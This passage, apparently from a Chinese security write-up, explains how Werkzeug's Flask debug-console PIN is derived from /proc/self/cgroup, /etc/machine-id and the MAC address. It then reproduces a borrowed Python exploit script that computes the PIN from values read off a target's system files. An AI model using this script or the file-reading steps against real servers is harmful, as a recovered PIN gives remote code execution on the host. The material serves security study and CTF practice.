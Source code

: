 与师傅们的文章的区别在第10~19行，首先尝试打开/proc/self/cgroup文件，读取第一行，并将/docker/字符串后面的内容作为该函数的返回值，如果该文件不存在或者该值不存在，才会走入师傅们文章中提到的依次尝试读取”/etc/machine-id”, “/proc/sys/kernel/random/boot_id”两个文件的流程。在我的本地环境中，/proc/self/cgroup文件是这样的：

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

可见第一行没有/docker这个字符串，那么走入下面的流程，尝试读取/etc/machine-id

![](https://p4.ssl.qhimg.com/t019db3212146cc3b8e.png)

其值存在，那么返回这个值，至此，我们用于计算pin码的所有变量已经获得，就可以计算PIN码了，这里直接借用一下kingkk师傅的exp：

```
import hashlib
from itertools import chain
probably_public_bits = [
    'root'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]

private_bits = [
    '274973438824773',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'f855a4d03e8442aa92d2813dfc0bf8c3'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

